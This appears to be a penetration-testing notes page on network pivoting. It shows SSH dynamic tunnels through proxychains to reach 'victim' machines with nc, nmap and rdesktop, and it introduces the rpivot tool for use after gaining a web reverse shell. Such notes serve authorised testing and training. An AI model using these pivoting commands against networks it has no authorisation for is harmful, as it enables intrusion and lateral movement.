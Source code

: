 ```bash
session
start
```



### SSH

Once we have access to a machine with SSH credential we can create a tunnel to connect our machine to other networks.

Establish the tunnel on a local port

```bash
sudo apt install proxychains

ssh -D $LOCAL_PORT $USER@$VICTIM1_IP
# ex ssh -D 8090 mario@192.168.3.2
```

Once we have the tunnel established, we have modify our proxy file and add this port.

```bash
nano /etc/proxychains.conf

# add follow line in the bottom
socks5 127.0.0.1 8090
socks4 127.0.0.1 8090
```

Now using `proxychains` we can access to all port of all other network machines.

```bash
# this command to create a port fordward which allow us to see a web page
proxychains nc -nv $VICTIM2_IP $PORT_TO_FORWARD_ON_VICTIM2

# use nmap through the pivoting
proxychains nmap -sT 192.168.98.30

# this command allow us to access via RDP to other machine in other network
proxychains rdesktop $VICTIM2_IP
```



### Rpivot



_RPIVOT allows to tunnel traffic into internal network via socks 4. It works like ssh dynamic port forwarding but in the opposite direction. Target machine as client and attack machine as server._

This tool is usefull when we have access to a machine through web rev shell but **we do not have the credentials** to make a SSH tunneling.

{% embed url="https://github.com/klsecservices/rpivot" %}

```bash
git clone https://github.com/klsecservices/rpivot
```
